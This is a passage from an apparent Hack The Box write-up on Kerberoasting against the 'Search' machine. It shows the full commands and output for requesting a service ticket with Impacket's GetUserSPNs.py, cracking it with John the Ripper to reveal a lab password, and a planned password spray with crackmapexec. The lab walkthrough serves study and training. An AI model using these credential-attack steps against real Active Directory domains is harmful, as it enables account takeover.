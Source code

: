![image](https://user-images.githubusercontent.com/69868171/154478862-b081ccda-3ee3-4f79-9ded-2cda7847ed4b.png)


If you compromise a user that has a valid kerberos ticket-granting ticket (TGT), then you can request one or more ticket-granting service (TGS) service tickets for any Service Principal Name (SPN) from a domain controller. An example SPN would be the Application Server shown in the above figure.

A portion of the TGS ticket is encrypted with the hash of the service account associated with the SPN. Therefore, you can run an offline brute force attack on the encrypted portion to reveal the service account password. Therefore, if you request an administrator account TGS ticket and the administrator is using a weak password, we’ll be able to crack it!

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.129]
└─$ GetUserSPNs.py search.htb/hope.sharp:'IsolationIsKey?' -dc-ip 10.10.11.129 -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon  Delegation 
---------------------------------  -------  --------  --------------------------  ---------  ----------
RESEARCH/web_svc.search.htb:60001  web_svc            2020-04-09 13:59:11.329031  <never>               



[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

If you find this error from Linux: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great) it because of your local time, you need to synchronise the host with the DC: `ntpdate IP of DC` .

![image](https://user-images.githubusercontent.com/69868171/154479501-ec0730fe-34f3-4bdc-8d35-36a54879278b.png)

Boom We were able to request a TGS ticket containing a hash for 	web_svc	 user let try and crack the hash using john the ripper.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.129]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt                                   
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
No password hashes left to crack (see FAQ)
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.129]
└─$ john --show hash.txt                                     
?:@3ONEmillionbaby

1 password hash cracked, 0 left
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.129]
```

Now that we have a password let try password reuses on the usernames we have yes i mean spraying it with `crackmapexec` maybe any user is using the same password.
